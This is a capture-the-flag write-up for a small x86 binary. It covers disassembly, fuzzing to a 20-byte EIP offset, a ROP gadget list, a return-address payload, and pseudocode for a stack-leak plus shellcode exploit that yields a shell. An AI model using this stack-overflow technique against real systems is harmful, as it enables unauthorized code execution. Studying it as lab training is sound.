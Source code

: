 reversing
=========

very small program, presumably written in assembly

```sh
08048060 <_start>:
 8048060:       54                      push   esp
 8048061:       68 9d 80 04 08          push   0x804809d // _exit
 8048066:       31 c0                   xor    eax,eax
 8048068:       31 db                   xor    ebx,ebx
 804806a:       31 c9                   xor    ecx,ecx
 804806c:       31 d2                   xor    edx,edx
 804806e:       68 43 54 46 3a          push   0x3a465443 // "CTF:"
 8048073:       68 74 68 65 20          push   0x20656874 // "the "
 8048078:       68 61 72 74 20          push   0x20747261 // "art "
 804807d:       68 73 20 73 74          push   0x74732073 // "s st"
 8048082:       68 4c 65 74 27          push   0x2774654c // "Let'"
 8048087:       89 e1                   mov    ecx,esp   // *string: sp (as we just pushed the string to stack)
 8048089:       b2 14                   mov    dl,0x14   // length of string: 14
 804808b:       b3 01                   mov    bl,0x1  // fd: 1 (stdout)
 804808d:       b0 04                   mov    al,0x4  // system call number 4: write 
 804808f:       cd 80                   int    0x80   // syscall 
 8048091:       31 db                   xor    ebx,ebx // fd: 0 (stdin)
 8048093:       b2 3c                   mov    dl,0x3c  // count: 61
 8048095:       b0 03                   mov    al,0x3 // sycall #3: read
 8048097:       cd 80                   int    0x80 // read(), ecx remains at sp 
 8048099:       83 c4 14                add    esp,0x14
 804809c:       c3                      ret

0804809d <_exit>:
 804809d:       5c                      pop    esp
 804809e:       31 c0                   xor    eax,eax
 80480a0:       40                      inc    eax
 80480a1:       cd 80                   int    0x80
```

pushes each 32bit word of the string onto the stack.
writes 14 byte string to stack
reads 61 bytes of input, grows stack by 0x14


fuzzing
=======

check security features -> none
spam input -> stack smashed, can overwrite eip
gdb pattern scan -> offset 20

```sh
gdb ./start 
pattern create
run 
(input pattern)
pattern search (value in eip after program exits)
```

decision: binary doesn't have NX bit set, so if we write our shellcode to the stack and set eip to the address we have RCE

shellcoding
===========

searching for rop gadgets:
```
0x0804809b: adc al, 0xc3; pop esp; xor eax, eax; inc eax; int 0x80;
0x08048099: add esp, 0x14; ret;
0x080480a0: inc eax; int 0x80;
0x0804808f: int 0x80;
0x08048097: int 0x80; add esp, 0x14; ret;
0x08048085: je 0xae; mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80;
0x0804809a: les edx, ptr [ebx + eax*8]; pop esp; xor eax, eax; inc eax; int 0x80;
0x08048095: mov al, 3; int 0x80;
0x08048095: mov al, 3; int 0x80; add esp, 0x14; ret;
0x0804808d: mov al, 4; int 0x80;
0x0804808b: mov bl, 1; mov al, 4; int 0x80;
0x08048089: mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80;
0x08048093: mov dl, 0x3c; mov al, 3; int 0x80;
0x08048093: mov dl, 0x3c; mov al, 3; int 0x80; add esp, 0x14; ret;
0x08048087: mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80; .
0x0804809d: pop esp; xor eax, eax; inc eax; int 0x80;
0x08048090: xor byte ptr [ecx], 0xdb; mov dl, 0x3c; mov al, 3; int 0x80;
0x08048090: xor byte ptr [ecx], 0xdb; mov dl, 0x3c; mov al, 3; int 0x80; add esp, 0x14; ret;
0x0804809e: xor eax, eax; inc eax; int 0x80;
0x08048091: xor ebx, ebx; mov dl, 0x3c; mov al, 3; int 0x80;
0x08048091: xor ebx, ebx; mov dl, 0x3c; mov al, 3; int 0x80; add esp, 0x14; ret;
0x08048086: daa; mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80; 
0x0804809c: ret;

23 gadgets found
```

the gadgets at 0x8048087 and x8048086 print esp, which is what we want

```
echo -ne "AAAAAAAAAAAAAAAAAAAA\x87\x80\x04\x08" > shellcode
gdb ./start
run < shellcode
```

running throught netcat, it seems aslr is enabled on the server so we need to use our gadget at exploittime

so our exploit should look like this

```
stack = (int)send((padding + le(0x8048087))
send(padding + stack+len(padding) + shellcode)
```

after getting reverse shell using [this](https://shell-storm.org/shellcode/files/shellcode-827.html) shellcode from Hamza Megahed the flag can be found in /home/start!






